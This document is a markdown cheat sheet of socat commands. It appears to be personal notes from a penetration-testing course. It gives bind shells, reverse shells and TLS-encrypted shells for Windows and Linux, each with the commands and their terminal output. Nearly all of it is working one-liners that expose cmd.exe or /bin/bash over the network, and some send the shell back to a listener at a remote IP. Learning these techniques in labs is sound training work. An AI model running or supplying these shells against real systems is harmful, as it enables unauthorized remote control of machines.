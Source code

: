 # Cheat Sheet

# socat

## Bind Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ socat FILE:`tty`,raw,echo=0 TCP:192.168.134.10:443
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Tools\practical_tools\socat>

### Linux Example

    gothburz@kali:~$ sudo socat TCP-LISTEN:443,fork EXEC:/bin/bash

    PS C:\Users\gothburz> .\socat.exe TCP:192.168.119.134:443 STDOUT
    ip addr | grep tun0
    4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
        inet 192.168.119.134/24 brd 192.168.119.255 scope global tun0

## Reverse Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe TCP:192.168.119.134:443 EXEC:cmd.exe,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ sudo socat TCP-LISTEN:443 STDOUT
    /bin/bash: line 2: $'\f\fcls': command not found
    2020/02/17 16:12:03 socat[12060] E waitpid(): child 12061 exited with status 127
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>

### Linux

    PS C:\Tools\practical_tools\socat> .\socat.exe -d -d TCP4-LISTEN:443 STDOUT
    2020/02/17 13:08:17 socat[796] N listening on AF=2 0.0.0.0:443

    gothburz@kali:~/PWK2.0/4-practical-tools/socat$ sudo socat TCP:192.168.134.10:443,fork EXEC:/bin/bash

## Encrypted Bind Shell

### Windows

    PS C:\Tools\practical_tools\socat> .\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
    err,setsid,sigint,sane

    gothburz@kali:~$ socat - OPENSSL:192.168.134.10:443,verify=0
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>

### Linux

    gothburz@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash

    PS C:\Users\gothburzt> socat.exe - OPENSSL:192.168.119.134:443,cert=bind_shell.pem,verify=0

## Encrypted Reverse Shell

### Windows

    PS C:\Users\gothburz> .\socat.exe OPENSSL:192.168.119.134:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.ex
    e,pty,stderr,setsid,sigint,sane

    gothburz@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 STDOUT
    Microsoft Windows [Version 10.0.16299.15]
    (c) 2017 Microsoft Corporation. All rights reserved.
    
    C:\Users\gothburz>
    

### Linux

    PS C:\Tools\practical_tools\socat> .\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0 STDOUT

    gothburz@kali:~$ sudo socat OPENSSL:192.168.134.10:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash